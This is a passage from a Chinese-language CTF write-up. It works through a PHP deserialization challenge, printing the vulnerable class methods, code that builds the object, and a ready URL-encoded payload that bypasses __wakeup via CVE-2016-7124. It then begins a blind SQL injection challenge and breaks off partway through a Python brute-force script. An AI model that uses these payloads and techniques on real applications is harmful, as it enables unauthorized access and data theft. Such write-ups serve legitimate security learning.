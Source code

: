 审计起来还是十分简单的，获得flag函数就得调用getFlag()，而调用$this->handle->getFlag();在\_\_destruct中，

```php
    public function __destruct(){
        echo "__destruct\n";
        var_dump($this);
        $this->handle->getFlag();
    }
```



这个魔方函数是对象销毁时会调用的，所以不需要做任何操作。所以我们让$this->handle等于Flag的对象，就可以调用了。实测，不行。然后看到了Handle的__wakeup中

```php
public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
```

思路很清晰，就是绕过它，CVE-2016-7124。所以就在本地构造,在含有Flag和Handle类的代码里写入

```php
$a = new Flag("flag.php");
// 绕过if($this->token === $this->token_flag)
$a->token = &$a->token_flag;
$b = new Handle($a);
var_dump(base64_encode(serialize($b)));
```

然后将var_dump出来的字符串->base64decode->urlencode

```
O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A5%3A%22token%22%3Bs%3A32%3A%226c90885b28e58d1f44856d787da2078f%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%226c90885b28e58d1f44856d787da2078f%22%3B%7D%7D
```

然后在修改O后面的数量使其大于1就可以了。

这题主要是卡在了私有成员函数会有特殊字符%00,其实在本地就一直遇到了，但是没实际解决掉，直到想到base64encode才知道有这东西。



## 全宇宙最简单的SQL

访问题目界面

![](https://wulasite.top/mdimage/guosai/sql.png)

登录试试，一番探索之后发现，只会报两种错误，一种是登录失败，代表语句执行成功，但是密码不匹配，一种是数据库执行失败，说明语句报错。

那么明显是报错注入了，只是不回显报错内容。然后过滤了or，if之类的，所以password不可以直接用，所以想别名，可以使用union select like database()等，过滤不严格，可以尝试，写了个脚本

```python
import requests
import time

url = ' http://39.97.227.64:52105/'

headers = {
    "Content-Type": 'application/x-www-form-urlencoded',
    "Accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
}

payload = '!"#$&()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^`abcdefghijklmnopqrstuvwxyz{|}~'
# payload = '0123456789.'
```